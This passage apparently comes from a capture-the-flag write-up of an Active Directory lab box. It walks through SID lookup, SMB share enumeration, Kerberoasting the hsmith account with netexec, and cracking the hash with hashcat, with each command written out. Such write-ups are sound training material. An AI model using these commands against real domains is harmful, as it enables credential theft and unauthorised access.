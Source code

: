 
### Enumerating Users &amp; Groups on the domain using impacket-lookupsid: {#enumerating-users-and-groups-on-the-domain-using-impacket-lookupsid}

-   **I run** `impacket-lookupsid` **to enumerate all users and groups on the domain**:
    -   `impacket-lookupsid $user@$box -domain-sids`
    -   {{< figure src="/ox-hugo/2024-11-03-103354_.png" >}}
    -   As expected no other users on the domain apart from the standard built in ones. I add these users to my user list.


### Using smbclient to enumerate shares: {#using-smbclient}

-   `print$` **share enumeration**:
    -   `smbclient -U $user "\\\\$box\\print$"`
    -   {{< figure src="/ox-hugo/2024-11-03-103843_.png" >}}
    -   +Note+: This appears to be a standard printer share. I will leave this for the moment and come back to it later if needed.

-   `NETLOGON` **share enumeration**:
-   `smbclient -U $user "\\\\$box\\NETLOGON"`
    -   It's empty (as expected)
    -   {{< figure src="/ox-hugo/2024-11-03-103812_.png" >}}

-   `SYSVOL` **share enumeration**:
    -   `smbclient -U $user "\\\\$box\\SYSVOL"`
    -   Scripts dir is empty:
        -   {{< figure src="/ox-hugo/2024-11-03-104020_.png" >}}

-   `Ricoh` **share enumeration**:
-   `smbclient -U $user "\\\\$box\\RICOH Aficio SP 8300DN PCL 6"`
    -   {{< figure src="/ox-hugo/2024-11-03-110017_.png" >}}
    -   Empty but writeable, we can come back to this later.


### Kerberoasting hsmith: {#kerberoasting-hsmith}

As we have credentials we can perform kerberoasting:

-   **I use netexec to kerberoast**:
    -   `netexec ldap $machine.$domain -u $user -p $pass --kerberoasting kerb.out`
    -   We get a hit for `hsmith`
    -   {{< figure src="/ox-hugo/2024-11-03-105350_.png" >}}


### Cracking hsmith's password with hashcat: {#cracking-hsmith-s-password-with-hashcat}

-   **I run it through hashcat and crack the hash**:
    -   `hashcat -m 13100 kerb.out ~/Wordlists/rockyou.txt`
    -   {{< figure src="/ox-hugo/2024-11-03-105549_.png" >}}
    -   It cracks, annoyingly it's the same password as `fsmith` so I should have checked for password re-use between users, this is a learning moment.
